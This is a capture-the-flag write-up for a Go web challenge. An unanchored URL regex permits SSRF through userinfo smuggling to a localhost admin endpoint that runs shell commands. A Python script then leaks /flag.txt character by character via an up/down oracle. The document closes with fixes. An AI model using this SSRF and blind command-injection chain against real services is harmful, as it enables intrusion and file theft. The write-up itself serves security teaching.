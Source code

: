 # Status - CTF Challenge Writeup

- **Challenge Name:** Status
- **Category:** Web Security
- **Attached:** [`web-status.zip`](./Files/web-status.zip)

## Exploration

We are provided with the source code of a small Go web server. Its purpose is to check whether a given website is "up" or "down." The server enforces a regex check so that only URLs starting with `ctf.uscybergames.com` are allowed.

The application exposes two endpoints:

- `/status-check`: Takes a url parameter and reports the status of the target site.

- `/admin/exec`: An internal IT maintenance endpoint that executes arbitrary shell commands (intended to be accessible only from localhost).

At first glance, the system appears restricted and hardened (regex checks, stripped-down Docker image). However, with careful analysis we discovered multiple misconfigurations that chain together into a full SSRF → RCE → flag exfiltration attack.

### 1. Over-permissive regex in `/status-check`

```go
match, _ := regexp.MatchString(`^(https?:\/\/)?ctf.uscybergames\.com`, url)
```

- The regex **lacks an end-of-string anchor (`$`)**, so it matches *any* string that begins with `http://ctf.uscybergames.com`, regardless of the real host.

- This opens the door to URL smuggling via usernames:

  ```
  http://ctf.uscybergames.com@127.0.0.1:8080/admin/exec?cmd=cat%20/flag.txt
  ```

  - The regex passes since the string starts with `ctf.uscybergames.com`.
  - But when Go parses it, `ctf.uscybergames.com` is treated as the **username**, and `127.0.0.1:8080` is the actual host.
  - The request is routed to the internal admin interface.

- This turns into a classic **SSRF → RCE chain**:

  1. Call `/status-check?url=<poisoned-url>`.
  1. Go’s `client.Get` follows the URL to `127.0.0.1:8080/admin/exec`.
  1. Since the request comes from `127.0.0.1`, it passes internal IP checks.

### 2. Unrestricted shell execution in `/admin/exec`

```go
cmd := exec.Command("sh", "-c", cmdStr)
```

- No sanitization. No escaping.
- Once you can reach `/admin/exec`, you have **arbitrary shell command execution**.

### 3. Dockerfile "hardening" is mostly cosmetic

```dockerfile
FROM busybox:latest
WORKDIR /bin
RUN rm -rf *
COPY --from=busybox:latest /bin/busybox /bin/sh
COPY --from=builder /build/app app
COPY flag.txt /flag.txt
```

- The author wipes `/bin` and leaves only `/bin/sh`.
- This blocks common tools (`cat`, `echo`, `curl`, etc.), forcing attackers to rely solely on shell built-ins.
- Annoying, but not a real defense.

### 4. Insecure TLS settings

```go
http.DefaultTransport.(*http.Transport).TLSClientConfig = &tls.Config{InsecureSkipVerify: true}
```

- Disabling TLS verification globally means **any HTTPS service can be spoofed or MITM’d**.
- This didn’t directly matter for the exploit, but it’s a dangerous practice.

## Crafting the Exploit

With only `sh` built-ins available, we needed a **blind exfiltration strategy**. The only feedback channel was the service’s "up" vs "down" status.

**Key insight**: `/admin/exec`’s exit code controls `/status-check`’s output:

- `exit 0` → "up"
- non-zero exit → "down"

So we can brute-force the flag, one character at a time:

1. `read flag < /flag.txt`
1. Use a `case` statement to check if the flag starts with a guessed prefix.
1. Exit `0` if true, `1` otherwise.
1. Use "up"/"down" as the oracle.

### Exploit Script

```python
#!/usr/bin/env python3
import requests
import time
import string
from urllib.parse import quote

BASE = "http://127.0.0.1:8080"
sess = requests.Session()

alphabet = string.ascii_letters + string.digits + "{}_"
flag = ""

print("Starting blind leak...")

while True:
    found = False
    for c in alphabet:
        print(f"Trying {c}", end="\r")
        prefix = flag + c
        # build a shell snippet that:
        #  1) reads the flag into $flag
        #  2) tests if $flag starts with our prefix
        #  3) exits 0 if yes, 1 if no
        #  Optimization: Binary Search
        sh_cmd = (
            "read flag < /flag.txt; "
            'case "$flag" in '
            f'"{prefix}"*) exit 0 ;; '
            "*) exit 1 ;; "
            "esac"
        )
        payload = quote(sh_cmd, safe="")
        ssrf = "http://ctf.uscybergames.com@127.0.0.1:8080/admin/exec?cmd=" + payload

        r = sess.get(f"{BASE}/status-check", params={"url": ssrf}, timeout=5)
        body = r.text.strip()

        # "up" means exit code 0 i.e. prefix is correct
        if body == "up":
            flag = prefix
            print(f"Got character: {c!r} -> flag = {flag}")
            found = True
            break

        time.sleep(0.1)

    if not found:
        print("Leak complete. Final flag:", flag)
        break
```

## Defense Recommendations

1. Fix regex: `^(https?:\/\/)?ctf\.uscybergames\.com$`
1. Validate the parsed URL hostname, not just the raw string.
1. Remove or lock down `/admin/exec`.
1. Run containers as non-root.

## Real-World Impact

This exploit chain demonstrates a **textbook SSRF → RCE** path, similar to what often happens in cloud environments where services trust requests from `localhost` or internal networks. Small misconfigurations can cascade into full compromise.
